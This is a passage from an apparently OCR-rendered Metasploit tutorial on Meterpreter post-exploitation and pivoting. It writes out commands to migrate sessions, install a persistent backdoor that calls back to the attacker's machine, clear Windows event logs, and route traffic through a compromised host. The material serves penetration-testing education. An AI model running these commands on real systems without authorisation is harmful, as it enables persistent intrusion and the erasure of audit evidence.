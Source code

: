 - List running processes:

```
ps
```

- Migrate to another process (moves the Meterpreter session to another process, often used to maintain access if the original process is at risk of termination):

```
migrate <process_id>
```

- Kill a process:

```
kill <process_id>
```

- Create a persistent backdoor (sets up a persistent Meterpreter backdoor that attempts to reconnect every 5 seconds. The ```<port>``` and ```<IP_address>``` refer to the attacker's machine):

```
run persistence -U -i 5 -p <port> -r <IP_address>
```

- Clear the Windows Event Logs:

```
run post/windows/manage/clear_eventlog
```

**Pivoting in Metasploit:**

Pivoting is a crucial technique in penetration testing, allowing an attacker to access and compromise systems within a network that are otherwise inaccessible. This is particularly useful when dealing with segmented networks, where different subnets are isolated from one another.

In a real-world penetration test, you often encounter environments with multiple networks, separated by firewalls or switches. Pivoting leverages a compromised host that has access to multiple networks (via physical or virtual network adapters) to route traffic through it to other, less accessible targets.

You can manually set up a pivot in Metasploit by adding routes through the compromised host:

```
route add <subnet> <netmask> <session_id>
```

Example:

```
route add 192.168.1.0 255.255.255.0 1
```

Here, 192.168.1.0 is the target network, 255.255.255.0 is the subnet mask, and 1 is the session ID of the compromised host. This command configures Metasploit to route traffic through this session to reach the specified subnet. So, when you use the route add command, you’re telling Metasploit to route traffic destined for a certain subnet (which could be in a different network) through the compromised host. This allows you to target machines in that other network from your attacking machine, even though they aren't directly reachable by it.
